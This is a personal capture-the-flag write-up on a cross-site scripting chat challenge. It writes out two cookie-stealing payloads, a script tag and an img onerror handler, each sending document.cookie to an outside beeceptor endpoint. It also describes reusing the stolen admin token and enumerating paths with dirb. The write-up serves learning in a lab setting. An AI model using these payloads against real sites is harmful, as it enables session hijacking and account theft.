 This challenge is clearly another xss challenge as its in the webpage link we get.<br />
We see a page with a moving image and a chatbox with an admin.

I tried the same xss as in the Government Agriculture Network challenge:
<script>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie</script>

This returns:<br />
HACKER ALERT!

So there is some checking for xss going on.
This can get very tricky as i found out last year however the first thing I checked already worked out:
Using an img tag with an onerror that executes javascript is another very common way to inject javascript and this does work:
\<img src=X onerror='location.href="https://paulovh.free.beeceptor.com?"+ document.cookie'/\>

This gived me the flag on the beeceptor mock api page!

When trying to go to /admin of the page you get redirected back to the same page at first.<br />
I tried this /admin page as it is a common page on many sites but for a more reliable way of getting these kind of pages you can use:<br />
dirb https://cwo-xss.web.ctfcompetition.com<br />
the dirb program will go trough a wordlist of common website paths and test them all and return you which ones worked.

But the xss also gives you an auth token from the admin.
Adding this in my firefox storage (explained in my Government Agriculture Network write-up) and going again to the /admin page I now get a new page with 3 options:
- Users
- Livestreams
- Camera Controls

The first 2 do nothing the last one gives the message:<br />
Requests only accepted from 127.0.0.1

Here I got stuck. I did not know for sure there was a flag to find here but it did seem like there was something here.

I eventualy needed to read a write-up to find this flag :( There is some magic happening with parameters in the url that make the page think you are comming from 127.0.0.1<br />
I dont know how I should have found this. I will be looking for write-ups that give a better explanation than the first I found and add a better explanation here if I do.

This part I abandoned after I had failed myself in the crypto challenge. Maybe more googleing would make it clear even without finding other write-ups but at this point I had had enough for now.

